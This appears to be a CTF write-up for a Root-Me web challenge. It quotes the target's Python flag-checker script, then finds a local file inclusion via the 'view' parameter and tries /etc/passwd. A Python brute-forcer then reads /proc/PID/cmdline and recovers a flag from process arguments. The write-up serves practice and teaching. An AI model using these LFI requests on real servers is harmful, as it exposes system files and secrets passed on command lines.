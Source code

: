 # Echo's Secure Flag Checker

![chall_head](./chall_head.png)

## Vulnerablity searching

First, let's look at the website.

![home_page](./screen1.png)

It appears that the website was created to publish a script that checks the robustness of a flag. When we click on the link "here", we can see 2 interesting things.

- The page inform us that we can download the script at `http://ctf10k.root-me.org:6002/flagChecker.py` and if we remember correctly what says the description of the challenge, we can see that `The admin is currently running the FlagChecker on his server.`

- The url that we were redirected to is `http://ctf10k.root-me.org:6002/?view=app.html` which could be a local/remote file inclusion. This vulnerablity appears when websites open the content of files that are given in parameters, if there is no filter in the path of the file given, an attacker can read the content of any file, if he knows his path.

Let's first check the script, it could maybe be vulnerable.

```python
#!/bin/python3

"""
FlagChecker V0.1
Todo :  Improve testFlag method with regular expressions
	Implement try/catch to handle bad args
"""

#libs
from sys import argv
from os import getpid,system

#flag
flag = argv[2]
print("[~] Your flag is:",flag)
print("[~] PID is:",getpid())

def testFlag(passw):
	special_characters = "\"'!@~éè#$%^&*()-+?_=,<>/"
	isStrong = True
	reason = "[!] flag doesn't match these critera : \n"
	upperChars = 0
	lowerChars = 0
	numChars = 0
	if(len(passw)<=12):
		isStrong = False
		reason+="\t-Not long enough (<12 characters)\n"
	for char in passw:
		if char.isupper():
			upperChars+=1
	if(upperChars==0):
		isStrong= False
		reason+="\t-There are no uppercase characters in your flag\n"
	for char in passw:
		if char.islower():
			lowerChars+=1
	if(lowerChars==0):
		isStrong = False
		reason+="\t-There are no lowercase characters in your flag\n"
	for char in passw:
		if char.isnumeric():
			numChars+=1
	if(numChars==0):
		isStrong = False
		reason+="\t-There are no numbers in your flag\n"
	if(char in special_characters for char in passw):
		a=""
	else:
		reason+="\t-There are no special chars in your flag\n"
		isStrong=False
	if(isStrong):
		print("[!] Your flag is strong enough !")
	else:
		print(reason)
	input("Press <ENTER> to quit program...")
#test flag
testFlag(flag)
```

Ok, bye reading the script, we can assume that the administrator of the website ran the program but forgot to close it by typing \<ENTER\>. We can assume that he ran something like

```bash
./flagChecker -f flag
```

So, what we exploit is the fact that the script is currently running. To do that, let's look into the local/remote file inclusion that we found earlier.

To be more precise, let's firstly try if there really is a local file inclusion. To check that, the most efficient way is to test it on a file that exists in the directory for sure and we got one. Infact, `flagChecker.py`is in this directory.


By requesting `http://ctf10k.root-me.org:6002/?view=flagChecker.py` we got this reponse

![screen_response](./screen2.png)

The LFI(Local File Inclusion) worked !

Now let's see if there is a restriction on the file that we can open. For example, let's try `/etc/passwd` .

![screen_reponse2](./screen3.png)


Unfortunately, there is one. :cry:

If we think a litle, what we need to find is the command that was executed. To do that, we have 2 ways, or a log file, or a file that contains iformations about the programs currently running.

Logs are out of reach, cause most of them need root permissions to be openend, so it only remains the second possibilty.

If we look further in the way of working of linux type systems, there is a directory created for each currently running program in `/proc` which is named with the PID of the process. Inside, there is a file called `cmdline`, where we can find the command line used to launch the process.

So, to sum up, we're gonna try to open the file `/proc/PID/cmdline` to see how the process with the pid PID was launched.

Let's try to do it for the pid 1, to see if we can access that file, which gives the url `http://ctf10k.root-me.org:6002/?view=/proc/1/cmdline`.


![screen_response_test](./screen4.png)

And we got it, time to create a script to brute-force all the pids possible, to find which ones exists and wich ones do not.


## exploitation of the vulnerability



```python
import requests
import time
from bs4 import BeautifulSoup

s = requests.Session()
url = "http://ctf10k.root-me.org:6002/?view=/proc/"
not_found_length = 1366 # lenght of the responses with 404 not found

for i in range(1, 9999):
    print("Getting : " + str(i))
    req = s.get(url+str(i)+"/cmdline").content
    if len(req) != not_found_length:
        print("[+] Found for "+str(i))
        cmd = BeautifulSoup(req).find("main")
        print(cmd)
    time.sleep(0.1) # if there is a request/s limit
```

If we execute the script.

```html
Getting : 1
[+] Found for 1
<main class="text-light">/bin/bash /entrypoint.sh </main>
Getting : 2
Getting : 3
Getting : 4
Getting : 5
Getting : 6
Getting : 7
[+] Found for 7
<main class="text-light">apache2 -DFOREGROUND </main>
Getting : 8
[+] Found for 8
<main class="text-light">python3 /var/www/html/flagChecker.py --flag RM{Thx2Anth0&amp;M1k4Y0uFl4gg3d0bfu6} </main>
Getting : 9
Getting : 10
Getting : 11
Getting : 12
Getting : 13
Getting : 14
Getting : 15
```

We just need to wait 5 seconds and here we got the flag in the output, no need to test more pids.

We just need to remove the html encoding (`&amp;` -> `&`), which gives the flag `RM{Thx2Anth0&M1k4Y0uFl4gg3d0bfu6}`.

[Here](./brute_force_flagChecker.py) is the source code of the brute force script and [here](./flagChecker.py) is the file flagChecker(that was downloaded on the website).

Thanks to Mika and Antho for the challenge and thank you for reading.